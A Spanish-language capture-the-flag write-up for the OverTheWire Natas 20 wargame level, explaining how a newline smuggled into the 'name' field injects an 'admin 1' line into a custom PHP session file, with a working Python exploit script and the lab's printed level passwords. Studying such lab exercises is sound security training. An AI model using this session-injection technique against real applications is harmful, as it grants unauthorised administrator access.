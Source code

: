 # Natas 20

#### URL: http://natas20.natas.labs.overthewire.org/
#### Credenciales: natas20:p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw

La propiedad nombre enviada a traves de la peticion es asignada a la variable superglobal $_SESSION:
``` php
if(array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
    debug("Name set to " . $_REQUEST["name"]);
}
```

Cada vez que se crea una sesion la funcion mywrite guarda en un archivo de sesion las linea "$key $value\n" para cada par de clave valor que halla en la sesion. En un caso normal se guardaria `name NuevoNombre\n`.

``` php
   $filename = session_save_path() . "/" . "mysess_" . $sid;
    $data = "";
    debug("Saving in ". $filename);
    ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
```

Cada vez que se inicia sesion la funcion myread revisa el archivo de sesion, lo divide en lineas, y cada linea la divide por un caracter de espacio, y `agrega como una propiedad de $_SESSION a la primera parte y le asigna como valor a la segunda parte`.
``` php 
$filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
    debug("Reading from ". $filename);
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
```

Si pasamos 'nombre\nadmin 1' con una nueva cookie de sesion mywrite guardará esto en un archivo con el siguiente contenido:
```
nombre\n
admin 1\n
```

Luego vendra myread  y lo dividira en las lineas `nombre` y `admin 1` y asignará `$_SESSION["nombre"]=""` y `$_SESSION["admin"]=1` y esta ultima propiedad nos garantiza permisos de administrador:
``` php
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}
```

Aqui implementamos la solucion:
``` python
import requests
from base64 import b64encode

def check(sessid):
    URL= 'http://natas20.natas.labs.overthewire.org/index.php?debug'
    data = {'name': 'tatomihermano\nadmin 1'}
    headers = {'Authorization': f'Basic {b64encode(b"natas20:p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw").decode()}',
               'Cookie': f'PHPSESSID={sessid}',
               'Content-Type': 'application/x-www-form-urlencoded',
              }
    response = requests.post(URL,headers=headers,data=data)
    print(response.text)
       
# Cualquier ID sirve
check('0a1b2c3d4e5f6g7h8i9j')
```

Ejecutando este script con `python3 script.py` dos veces (porque myread no se ejecutará en la primera, porque no existe el archivo de sesion) obtenemos Password: BPhv63cKE1lkQl04cE5CuFTzXe15NfiH

`natas21:BPhv63cKE1lkQl04cE5CuFTzXe15NfiH`
